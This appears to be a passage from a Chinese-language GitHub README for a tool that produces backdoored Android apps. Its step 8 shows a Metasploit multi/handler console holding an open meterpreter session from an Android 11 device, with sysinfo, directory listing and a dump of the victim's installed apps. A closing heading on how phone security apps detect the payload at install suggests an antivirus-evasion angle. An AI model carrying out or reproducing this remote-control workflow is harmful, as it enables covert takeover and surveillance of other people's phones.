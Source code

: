 <video id="video" controls="" height="500px"  preload="none" poster="./images/run.png">
	<source id="mp4" src="./images/show.mp4" type="video/mp4">
</video>

8. 成功后, 可以在msf中进行远程控制

   ```sh
   msf6 exploit(multi/handler) > sessions
   
   Active sessions
   ===============
   
     Id  Name  Type                        Information         Connection
     --  ----  ----                        -----------         ----------
     1         meterpreter dalvik/android  u0_a53 @ localhost  192.168.0.21:1433 -> 192.168.0.68:65133 (192.168.16
                                                               4.194)
   
   msf6 exploit(multi/handler) > sessions 1
   [*] Starting interaction with 1...
   
   meterpreter > sysinfo
   Computer    : localhost
   OS          : Android 11 - Linux 5.4.61-********+ (armv81)
   Meterpreter : dalvik/android
   meterpreter > ls
   No entries exist in /data/user/0/com.zhangy.vphone/files
   meterpreter > app_list
   Application List
   ================
   
     Name                                Package                               Running  IsSystem
     ----                                -------                               -------  --------
     Android System WebView              com.android.webview                   false    true
     Android 系统                          android                               false    true
     Android动态壁纸                         com.android.wallpaper                 false    true
     Arm Pro                             armadillo.studio                      false    false
     Black Hole                          com.android.galaxy4                   false    true
     Bluetooth MIDI Service              com.android.bluetoothmidiservice      false    true
     Call Log Backup/Restore             com.android.calllogbackup             false    true
     CaptivePortalLogin                  com.android.captiveportallogin        false    true
     HTML 查看程序                           com.android.htmlviewer                false    true
     Intent Filter Verification Service  com.android.statementservice          false    true
     KK谷歌助手                              io.kkzs                               false    true
     LOL GG                              com.hpdjyxsziq.sqmezcbpyf             false    false
     Live Wallpaper Picker               com.android.wallpaper.livepicker      false    true
     MT管理器                               bin.mt.plus                           false    false
     ......
   ```



## 不同手机安全管家对app安装时检测结果
